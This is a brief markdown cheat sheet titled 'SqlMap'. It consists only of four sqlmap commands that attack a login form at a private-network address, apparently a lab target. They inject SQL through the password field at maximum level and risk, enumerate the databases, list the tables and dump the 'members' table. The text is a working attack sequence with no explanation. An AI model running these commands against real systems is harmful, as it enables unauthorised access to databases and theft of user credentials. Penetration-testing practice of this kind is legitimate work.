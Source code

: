 # SqlMap

`sqlmap -u "http://192.168.1.32/checklogin.php" --data "myusername=admin&mypassword=nmdb" -p mypassword --dbms=MySQL --level=5 --risk=3`

`sqlmap -u "http://192.168.1.32/checklogin.php" --data "myusername=admin&mypassword=nmdb" -p mypassword --dbs`

`sqlmap -u "http://192.168.1.32/checklogin.php" --data "myusername=admin&mypassword=nmdb" -p mypassword --dbms=MySQL --level=5 --risk=3 -D members --tables`

`sqlmap -u "http://192.168.1.32/checklogin.php" --data "myusername=admin&mypassword=nmdb" -p mypassword --dbms=MySQL --level=5 --risk=3 -D members -T members --dump`
